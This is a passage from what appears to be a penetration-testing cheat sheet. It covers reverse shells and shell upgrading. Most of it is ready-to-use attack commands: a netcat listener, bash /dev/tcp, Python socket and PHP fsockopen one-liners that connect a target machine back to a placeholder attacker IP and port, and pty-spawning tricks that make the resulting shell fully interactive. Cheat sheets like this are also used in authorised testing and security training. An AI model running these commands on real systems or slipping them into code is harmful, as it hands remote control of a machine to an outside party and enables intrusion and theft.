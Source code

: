 - ### Reverse Shell
  A Reverse Shell is a type of connection where a target machine initiates a remote shell back to an attacker's system, allowing the attacker to execute
  commands on the target as if they were locally present. It can be easily achieved using [Netcat](https://nmap.org/ncat/).

  On your Local Machine, run the following command to start a Netcat listener on a specific port.
  ```bash
  nc -lvnp ${PORT}
  ```
  
  Afterwards on the Remote Machine, run one of the following commands to create the Reverse Shell.
  - #### Bash
    ```bash
    bash -i >& /dev/tcp/${LOCAL_MACHINE_IP}/${PORT} 0>&1
    ```
  
  - #### Python
    ```bash
    python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("YOUR.IP.ADDR.HERE",PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
    ```

  - #### PHP
    ```php
    <?php
      $ip='LOCAL_MACHINE_IP'; $port=PORT;
      $s=fsockopen($ip,$port);
      $proc=proc_open('/bin/sh', [$s,$s,$s], $pipes);
      proc_close($proc);
    ?>
    ```
  
<br/>

- ### Bash Spawn <br/>
  Spawns an interactive pseudo-terminal **(pty)** running **/bin/bash**, which upgrades a basic shell to behave more like a fully interactive terminal.
  Useful when doing a Reverse Shell.

  - #### Simple
    ```bash
    script /dev/null -c bash
    ```

  - #### Full
    ```bash
    python3 -c 'import pty;pty.spawn("/bin/bash")'
    <CTRL+Z>
    stty raw -echo; fg
    export TERM=xterm
    ```  
